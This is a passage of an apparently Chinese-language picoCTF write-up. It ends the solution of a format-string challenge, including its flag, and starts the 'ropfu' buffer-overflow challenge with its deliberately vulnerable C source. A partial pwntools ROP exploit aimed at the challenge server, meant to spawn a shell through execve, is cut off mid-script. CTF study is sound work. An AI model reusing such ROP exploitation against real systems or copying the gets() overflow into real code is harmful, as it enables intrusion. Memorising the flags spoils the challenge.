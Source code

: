 ```C
  vuln();
  return 0;
}
```

这是一个格式化字符串漏洞，通过gdb调试发现偏移为24的地方留有flag的地址+4。flag前面4个字符已知，因此直接打印这个地址对应的值即可。

picoCTF{L34k1ng_Fl4g_0ff_St4ck_0551082c}

## 10. ropfu

典型ROP攻击。

源码：

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

能够在程序中找到大量的rop材料，但还需要一个/bin/sh字符串。需要首先调用库函数将/bin/sh写入bss段，然后再系统调用execve来getshell。具体一些，execve的系统调用需要eax=0xB，ebx=read_addr，ecx=0，edx=0。

payload：
```python
from pwn import *
context.log_level = 'debug'

# io = process('./vuln')
io = remote('saturn.picoctf.net', 53996)
elf = ELF('./vuln')

sh_addr = next(elf.search(b'sh\0'))		# 'sh' addr, need to make ebx point to it
sys_execve = 0xb						# need to make eax be 0xb

pop_eax_addr = 0x80b074a
pop_ebx_addr = 0x8049022
pop_ecx_addr = 0x8049e39
pop_edx_ebx_addr = 0x80583c9
int_80_addr = 0x804a3d2
read_addr = 0x806ecf0
```